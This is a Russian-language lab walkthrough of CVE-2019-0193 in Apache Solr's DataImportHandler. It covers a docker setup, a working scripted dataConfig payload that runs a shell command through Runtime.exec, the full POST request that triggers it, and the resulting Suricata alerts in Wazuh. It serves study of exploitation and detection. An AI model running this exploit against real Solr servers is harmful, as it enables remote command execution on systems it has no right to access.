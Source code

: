 # CVE-2019-0193

В Apache Solr DataImportHandler, необязательный, но популярный модуль для получения данных из баз данных и других источников, имеет функцию, благодаря которой вся конфигурация DIH может быть получена из запроса параметра «dataConfig». \[Режим отладки экрана администратора DIH использует это для удобной отладки/разработки конфигурации DIH.&#x20;

Поскольку конфигурации DIH могут содержать сценарии, злоумышленники могут создавать опасные запросы, которые могут привести к удаленному выполнению команд.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команды:

```
docker compose up -d
docker compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

После запуска и создания нового ядра 'test' по адресу http://ваш-ip:8983 будет доступна веб-страница Apache Solr

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Перейдите на вкладку с новым ядром, затем dataimport -> Debug-Mode и вставьте следующую полезную нагрузку:

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

Затем нажмите кнопку `Execute with this Configuration`&#x20;

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

После этого отправьте следующий запрос для успешной реализации уязвимости:

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: ваш-ip:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=nNI9Q2RFGsJwDdNGaP5HHbW94e3aIVlTBNoKw9DjUnmRikDe4kOOEcTdK6mFnkc8
Upgrade-Insecure-Requests: 1
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://ваш-ip:8983/solr/
Content-Length: 683

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport

```

> Перед отправкой замените csrf-токен на ваш собственный

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

После отправки запроса был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
